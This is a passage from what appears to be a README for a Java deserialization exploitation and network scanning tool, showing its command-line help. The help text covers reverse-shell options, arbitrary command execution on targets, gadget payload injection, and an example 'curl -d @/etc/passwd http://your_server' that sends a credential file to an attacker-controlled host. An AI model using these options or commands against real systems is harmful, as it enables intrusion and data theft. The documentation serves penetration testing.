 ```
  --timeout TIMEOUT     Seconds to wait before timeout connection (default 3)

Standalone mode:
  -host HOST, -u HOST   Host address to be checked (eg. -u
                        http://192.168.0.10:8080)

Advanced Options (USE WHEN EXPLOITING JAVA UNSERIALIZE IN APP LAYER):
  --reverse-host RHOST:RPORT, -r RHOST:RPORT
                        Remote host address and port for reverse shell when
                        exploiting Java Deserialization Vulnerabilities in
                        application layer (for now, working only against *nix
                        systems)(eg. 192.168.0.10:1331)
  --cmd CMD, -x CMD     Send specific command to run on target (eg. curl -d
                        @/etc/passwd http://your_server)
  --windows, -w         Specifies that the commands are for rWINDOWS System$
                        (cmd.exe)
  --post-parameter PARAMETER, -H PARAMETER
                        Specify the parameter to find and inject serialized
                        objects into it. (egs. -H javax.faces.ViewState or -H
                        oldFormData (<- Hi PayPal =X) or others) (DEFAULT:
                        javax.faces.ViewState)
  --show-payload, -t    Print the generated payload.
  --gadget {commons-collections3.1,commons-collections4.0,groovy1}
                        Specify the type of Gadget to generate the payload
                        automatically. (DEFAULT: commons-collections3.1 or
                        groovy1 for JenKins)
  --load-gadget FILENAME
                        Provide your own gadget from file (a java serialized
                        object in RAW mode)
  --force, -F           Force send java serialized gadgets to URL informed in
                        -u parameter. This will send the payload in multiple
                        formats (eg. RAW, GZIPED and BASE64) and with
                        different Content-Types.

Auto scan mode:
  -network NETWORK      Network to be checked in CIDR format (eg. 10.0.0.0/8)
  -ports PORTS          List of ports separated by commas to be checked for
                        each host (eg. 8080,8443,8888,80,443)
  -results FILENAME     File name to store the auto scan results

File scan mode:
  -file FILENAME_HOSTS  Filename with host list to be scanned (one host per
                        line)
  -out FILENAME_RESULTS
                        File name to store the file scan results

```


Questions, problems, suggestions and etc:
----

* joaomatosf@gmail.com


